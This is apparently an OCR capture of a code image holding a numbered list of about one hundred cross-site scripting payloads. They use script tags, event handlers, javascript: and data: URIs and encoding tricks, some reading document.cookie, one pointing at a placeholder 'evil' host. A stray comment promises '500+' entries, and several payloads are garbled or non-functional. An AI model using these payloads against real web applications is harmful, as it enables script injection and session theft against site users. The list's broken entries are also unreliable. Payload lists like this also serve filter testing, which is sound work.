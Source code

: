1. <script>alert(1)</script>
2. <img src=x onerror=alert(1)>
3. <svg/onload=alert(1)>
4. <body onload=alert(1)>
5. <iframe src="javascript:alert(1)"></iframe>
6. '"><script>alert('XSS')</script>
7. "\'><img src=x onerror=alert(1)>
8. <math><mi/x><script>alert(1)</script>
9. <video src=x onerror=alert(1)>
10. <audio src=x onerror=alert(1)>
11. <details open ontoggle=alert(1)>
12. <object data="javascript:alert(1)"></object>
13. <iframe srcdoc="<script>alert(1)</script>"></iframe>
14. <img/srcset=x onerror=alert(1)>
15. <link onmouseover=alert(1) href="#">test</link>
16. <meta http-equiv="refresh" content="0;url=javascript:alert(1)">
17. <style>@import "javascript:alert(1)";</style>
18. <svg><style>@keyframes x{}</style><animate onbegin=alert(1)></animate>
19. <xss style="xss:expression(alert(1))">
20. <img onerror=alert(document.domain) src=x>
21. <script>prompt(1)</script>
22. <script>confirm(1)</script>
23. <svg onload=confirm(1)>
24. <iframe src=javascript:confirm(1)></iframe>
25. <svg><script>alert(self.name)</script>
26. <script>document.write('<img src=x onerror=alert(1)>')</script>
27. <svg><animate attributeName=onbegin from=1 to=1 onbegin=alert(1)></animate>
28. <math><maction xlink:href="javascript:alert(1)"></maction></math>
29. <script>setTimeout("alert(1)",0)</script>
30. <script>setInterval("alert(1)",1000)</script>
31. <script>eval("alert(1)")</script>
32. <body background="javascript:alert(1)">
33. <iframe onload=alert(1)>
34. <img src="javascript:alert(1)">
35. <input autofocus onfocus=alert(1)>
36. <input onblur=alert(1) autofocus>
37. <form onsubmit="alert(1);return false"><input type=submit></form>
38. <svg><circle onmouseover=alert(1) r=40/></svg>
39. <svg><foreignObject onload=alert(1)></foreignObject>
40. <video><source onerror=alert(1)></video>
...
# I'll continue enumerating up to 500+:
41. "%3Cscript%3Ealert(1)%3C/script%3E"
42. \u003Cscript\u003Ealert(1)\u003C/script\u003E
43. %3Cimg%20src=x%20onerror=alert(1)%3E
44. <script>location='javascript:alert(1)'</script>
45. <base href="javascript:alert(1);//">
46. <svg><a xlink:href="javascript:alert(1)">X</a></svg>
47. <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
48. <svg><script xlink:href="data:x,<script>alert(1)</script>"></script></svg>
49. <input value="</style><script>alert(1)</script>">
50. </title><script>alert(1)</script><title>
51. </script><script>alert(1)</script>
52. <script>alert(/XSS/)</script>
53. <svg onload=alert`1`>
54. <svg><script>alert`1`</script>
55. <img src=1 onerror=prompt(1)>
56. <a href="javascript:prompt(1)">click</a>
57. <iframe src="vbscript:msgbox(1)"></iframe>
58. <script>javascript:alert(1)</script>
59. <object type="text/x-scriptlet" data="https://evil/"></object>
60. <embed src="javascript:alert(1)">
61. <applet code="javascript:alert(1)"></applet>
62. <script>alert(document.cookie)</script>
63. <svg><script>alert(document.location)</script>
64. <body onload=alert(document.location)>
65. <img onerror=alert(document.cookie) src=x>
66. <svg><desc onfocus=alert(1) tabindex=1>desc</desc></svg>
67. <svg><text onmouseover=alert(1)>X</text></svg>
68. <svg><script>alert(self)</script>
69. <script>alert(top.location)</script>
70. <script>alert(parent)</script>
71. <img src="#\" onerror=alert(1)>
72. <audio><source src=onerror=alert(1)></audio>
73. <video onloadedmetadata=alert(1)><source src=#>
74. <script>new Image().src='javascript:alert(1)';</script>
75. <svg><script>window</script>
76. <script>Function('alert(1)')()</script>
77. <script>setTimeout(Function("alert(1)"),0)</script>
78. <textarea autofocus onfocus=alert(1)>text</textarea>
79. <button onfocus=alert(1)>Click</button>
80. <div tabindex=1 onfocus=alert(1)>X</div>
81. <svg><rect width=100 height=100 onmouseover=alert(1)></rect></svg>
82. <body onresize=alert(1)>
83. <iframe allowfullscreen src="javascript:alert(1)"></iframe>
84. <svg><filter><feFlood onload=alert(1) /></filter></svg>
85. <xmp><img src=x onerror=alert(1)></xmp>
86. <plaintext><script>alert(1)</script>
87. <iframe src="data:text/html,<img src=x onerror=alert(1)>"></iframe>
88. <svg><script><![CDATA[alert(1)]]></script>
89. <svg><animate onbegin=alert(1)></animate>
90. <img src=x onerror="alert( String . fromCharCode (65) )">
91. <script>p=alert; p(1)</script>
92. <svg><switch onmouseenter=alert(1)><g/></switch></svg>
93. <style>@keyframes a{};*{-webkit-animation:a 1ms;animation:a 1ms;}*{animation-name:alert(1)}</style>
94. <img src=# onerror=alert(String.fromCharCode(97,108,101,114,116,40,49,41))>
95. <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiVnhTUyIpPC9zY3JpcHQ+"></iframe>
96. <link href="data:text/css;base64,KyB7IGJhY2tncm91bmQtY29sb3I6I3AwMDsgfSBpbWcgeyBjb250ZW50OmFjdGl2YXRlKGFsZXJ0KDEpKTsgfQ==" rel="stylesheet">
97. <svg><style><![CDATA[@import "data:text/css;base64,KyB7IGJhY2tncm91bmQtY29sb3I6I2MwMTsgfSBpbWcgeyBjb250ZW50OmFjdGl2YXRlKDEpKTsgfQ=="]];></style>
98. <script>![]['filter']['constructor']('alert(1)')()</script>
99. <script>constructor.constructor('alert(1)')()</script>
100. <script>window['_']=alert;_[1]</script>
